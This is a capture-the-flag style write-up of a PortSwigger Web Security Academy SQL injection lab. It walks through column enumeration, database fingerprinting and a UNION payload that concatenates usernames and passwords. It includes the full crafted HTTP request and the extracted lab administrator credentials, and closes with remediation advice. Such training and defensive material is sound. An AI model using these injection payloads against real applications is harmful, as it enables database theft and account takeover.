





# Lab 10: SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 24, 2026

---

## 1. Objective
Identify the column count and string-compatible column position in the product category filter query, determine the backend database engine, concatenate both `username` and `password` from the `users` table into a single text-compatible column, and log in as `administrator`.

---

## 2. Reconnaissance & Enumeration
- **Target Endpoint:** `GET /filter?category=Gifts`
- **Vulnerable Parameter:** `category` (URL Query Parameter)

### Step-by-Step Enumeration
1. **Determine Column Count (`ORDER BY`):**
   - Tested `' order by 2--` $\rightarrow$ returned **HTTP 200 OK**[cite: 16].
   - Tested `' order by 3--` $\rightarrow$ returned **HTTP 500 Internal Server Error**.
   - **Result:** The original query returns **2 columns**.
2. **Identify String-Compatible Column (`UNION SELECT`):**
   - Tested `' UNION select 'a', NULL--` $\rightarrow$ HTTP 500 (column 1 is non-string).
   - Tested `' UNION select NULL, 'a'--` $\rightarrow$ **HTTP 200 OK**, confirming **only column 2** accepts string/text data[cite: 17].
3. **Fingerprint Database Version:**
   - Tested `' UNION select NULL, version()--` $\rightarrow$ revealed **PostgreSQL 12.22**[cite: 18], confirming support for the standard SQL/PostgreSQL `||` string concatenation operator.

---

## 3. Exploitation & Proof of Concept (PoC)
Because only the second column accepts text output, we concatenate `username` and `password` together using PostgreSQL's `||` operator inside that single column.

### Final Payload
```sql
' UNION select NULL, username || password from users--
```
## Modified HTTP Request (Burp Repeater)
```
GET /filter?category=Gifts' UNION select NULL, username || password from users-- HTTP/2
Host: 0a82000704f13705825f117800340031.web-security-academy.net
Cookie: session=[REDACTED]
```
## Extracted Credentials

Concatenated Output: administratorblblj960wrmrx323xopi

Username: administrator

Password: blblj960wrmrx323xopi

Logging in via /login with these credentials granted full administrative access and solved the lab.


## Proof of Exploitation Screenshots
1. Confirming 2 Columns (' order by 2--):

2. Confirming Only Column 2 Accepts Text (' UNION select NULL, 'a'--):

3. Fingerprinting PostgreSQL Version (' UNION select NULL, version()--):

4. Concatenating & Extracting Credentials (' UNION select NULL, username || password from users--):

5. Administrative Login & Lab Completion Banner:



## 4. Impact
Even when an application only reflects a single text column in its HTTP response, an attacker can chain SQL string concatenation operators (||, CONCAT(), or + depending on the DBMS) to extract multiple sensitive columns simultaneously, leading to full administrative account compromise.

## 5. Remediation
Primary Fix (Parameterized Queries): Use prepared statements with bound parameters so user-supplied values in category cannot alter the SQL query structure:
```
# Secure Python psycopg2 Parameterized Query Example
cursor.execute("SELECT id, name FROM products WHERE category = %s", (category,))
products = cursor.fetchall()
```
Cryptographic Password Hashing: Store user passwords using strong salted hashing (Argon2id or bcrypt) rather than plaintext so database read access does not yield valid plaintext passwords.
